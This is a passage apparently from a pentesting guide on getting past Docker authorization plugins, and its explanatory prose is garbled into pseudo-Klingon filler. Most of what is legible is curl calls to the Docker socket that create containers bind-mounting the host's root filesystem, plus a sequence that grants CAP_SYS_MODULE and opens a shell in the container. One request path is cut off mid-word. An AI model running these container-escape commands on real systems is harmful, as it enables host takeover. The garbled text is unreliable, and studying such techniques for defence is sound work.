 ### Binds in HostConfig

**Binds in root** Daq **instruction** vItlhutlh vItlhutlh **request** vItlhutlh Docker API Daq vItlhutlh:
```bash
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "HostConfig":{"Binds":["/:/host"]}}' http:/v1.40/containers/create
```
### qo'noS Daq yIqIm

**Binds in root** jatlh **QaStaHvIS** qaStaHvIS **Qap** vItlhutlhlaHbe'chugh Docker API vItlhutlhlaHbe':
```bash
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu-sleep", "Mounts": [{"Name": "fac36212380535", "Source": "/", "Destination": "/host", "Driver": "local", "Mode": "rw,Z", "RW": true, "Propagation": "", "Type": "bind", "Target": "/host"}]}' http:/v1.40/containers/create
```
### HostConfig-ghItlh

**Binds in root** vItlhutlh **instruction** vItlhutlh **follow** vItlhutlh **same** vItlhutlh **perform** vItlhutlh **request** vItlhutlh **Docker API** vItlhutlh **with** vItlhutlh **instruction** vItlhutlh **this**:
```bash
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu-sleep", "HostConfig":{"Mounts": [{"Name": "fac36212380535", "Source": "/", "Destination": "/host", "Driver": "local", "Mode": "rw,Z", "RW": true, "Propagation": "", "Type": "bind", "Target": "/host"}]}}' http:/v1.40/containers/cre
```
## Unchecked JSON Attribute

**QaQ**. **Sysadmin** jatlh **docker firewall** laH **parameter** **API** (**https://docs.docker.com/engine/api/v1.40/#operation/ContainerList**) **attribute** "**Capabilities**" **HostConfig** **ghaH** **parameter** **attribute** **vItlhutlh** **jatlh**. **Example** **abuse** **misconfiguration** **container** **SYS\_MODULE** **capability** **create** **run** **possible** **jatlh**:
```bash
docker version
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "HostConfig":{"Capabilities":["CAP_SYS_MODULE"]}}' http:/v1.40/containers/create
docker start c52a77629a9112450f3dedd1ad94ded17db61244c4249bdfbd6bb3d581f470fa
docker ps
docker exec -it c52a77629a91 bash
capsh --print
#You can abuse the SYS_MODULE capability
```
{% hint style="info" %}